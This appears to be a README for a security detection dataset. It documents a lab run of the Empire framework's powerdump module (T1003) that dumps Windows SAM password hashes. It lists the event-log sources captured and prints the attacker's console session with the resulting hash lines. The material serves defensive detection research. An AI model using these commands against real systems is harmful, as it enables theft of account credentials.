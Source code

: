 # Empire Powerdump

Dumping hashes from HKLM:\SAM\SAM\Domains\ registry keys.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_powerdump.tar.gz](./empire_powerdump.tar.gz)

## Network Environment

Shire

## Time Taken

2019-06-25132210

## About this file

| log_name                                                           | source_name                                            | task                                                   |   record_number |
|--------------------------------------------------------------------|--------------------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                                                 | PowerShell                                             | Pipeline Execution Details                             |             286 |
| Windows PowerShell                                                 | PowerShell                                             | Provider Lifecycle                                     |               8 |
| Windows PowerShell                                                 | PowerShell                                             | Engine Lifecycle                                       |               1 |
| System                                                             | Service Control Manager                                | na                                                     |               4 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Registry                                               |             168 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Filtering Platform Connection                          |             145 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Token Right Adjusted Events                            |             132 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Handle Manipulation                                    |              54 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Group Membership                                       |              14 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Logon                                                  |              14 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Logoff                                                 |              12 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Other Object Access Events                             |              11 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Process Creation                                       |              10 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Process Termination                                    |              10 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | SAM                                                    |              10 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Detailed File Share                                    |               9 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Special Logon                                          |               5 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Sensitive Privilege Use                                |               4 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Authorization Policy Change                            |               3 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | Kernel Object                                          |               3 |
| Security                                                           | Microsoft-Windows-Security-Auditing                    | File Share                                             |               1 |
| Microsoft-Windows-WMI-Activity/Operational                         | Microsoft-Windows-WMI-Activity                         | na                                                     |               2 |
| Microsoft-Windows-TerminalServices-LocalSessionManager/Operational | Microsoft-Windows-TerminalServices-LocalSessionManager | na                                                     |               6 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Image loaded (rule: ImageLoad)                         |             320 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process accessed (rule: ProcessAccess)                 |             175 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Network connection detected (rule: NetworkConnect)     |             112 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Registry object added or deleted (rule: RegistryEvent) |              52 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | File created (rule: FileCreate)                        |              46 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Pipe Connected (rule: PipeEvent)                       |              32 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process Create (rule: ProcessCreate)                   |              10 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Process terminated (rule: ProcessTerminate)            |              10 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | Registry value set (rule: RegistryEvent)               |               6 |
| Microsoft-Windows-Sysmon/Operational                               | Microsoft-Windows-Sysmon                               | RawAccessRead detected (rule: RawAccessRead)           |               1 |
| Microsoft-Windows-PowerShell/Operational                           | Microsoft-Windows-PowerShell                           | Executing Pipeline                                     |             241 |

## Attacker Activity

```
(Empire: Y298VW3B) > usemodule credentials/powerdump*
(Empire: powershell/credentials/powerdump) > info

              Name: Invoke-PowerDump
            Module: powershell/credentials/powerdump
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  DarkOperator
  winfang
  Kathy Peters
  ReL1K

Description:
  Dumps hashes from the local system using Posh-SecMod's
  Invoke-PowerDump

Comments:
  https://github.com/darkoperator/Posh-
  SecMod/blob/master/PostExploitation/PostExploitation.psm1

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        Y298VW3B                  Agent to run module on.                 

(Empire: powershell/credentials/powerdump) > execute
[*] Tasked Y298VW3B to run TASK_CMD_JOB
[*] Agent Y298VW3B tasked with task ID 4
[*] Tasked agent Y298VW3B to run module powershell/credentials/powerdump
(Empire: powershell/credentials/powerdump) > Job started: NPFW52
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


Nora:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

(Empire: powershell/credentials/powerdump) >
```